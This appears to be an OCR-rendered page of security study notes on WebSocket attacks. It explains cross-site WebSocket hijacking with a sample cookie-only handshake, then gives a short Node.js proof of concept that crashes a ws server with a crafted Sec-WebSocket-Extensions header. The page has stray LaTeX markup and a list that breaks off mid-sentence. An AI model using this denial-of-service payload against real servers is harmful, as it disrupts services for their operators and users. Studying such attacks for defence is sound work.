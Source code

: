 \nonumsidenote{Usually a web aplication could work with HTTP 1.0, HTTP 2.0, WebSockets and WebHooks.
Since a cross-site WebSocket hijacking attack is essentially a CSRF vulnerability on a WebSocket handshake, the first step to performing an attack is to review the WebSocket handshakes that the application carries out and determine whether they are protected against CSRF.

In terms of the normal conditions for CSRF attacks, you typically need to find a handshake message that relies solely on HTTP cookies for session handling and doesn't employ any tokens or other unpredictable values in request parameters.
For example, the following WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie


```
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

\begin{fullwidth} % Use the whole page width
The Sec-WebSocket-Key header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.
If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site. What happens next in the attack depends entirely on the application's logic and how it is using WebSockets. The attack might involve:
\end{fullwidth

## WebSocket Denial of Service Test

```
const WebSocket = require('ws');
const net = require('net');
const wss = new WebSocket.Server({ port: 3000 }, function () {
  const payload = 'constructor';  // or ',;constructor'
const request = [
'GET / HTTP/1.1',
'Connection: Upgrade',
'Sec-WebSocket-Key: test',
'Sec-WebSocket-Version: 8',
`Sec-WebSocket-Extensions: ${payload}`,
'Upgrade: websocket',
'\r\n'
  ].join('\r\n');
const socket = net.connect(3000, function () {
socket.resume();
socket.write(request);
  });
});  
```
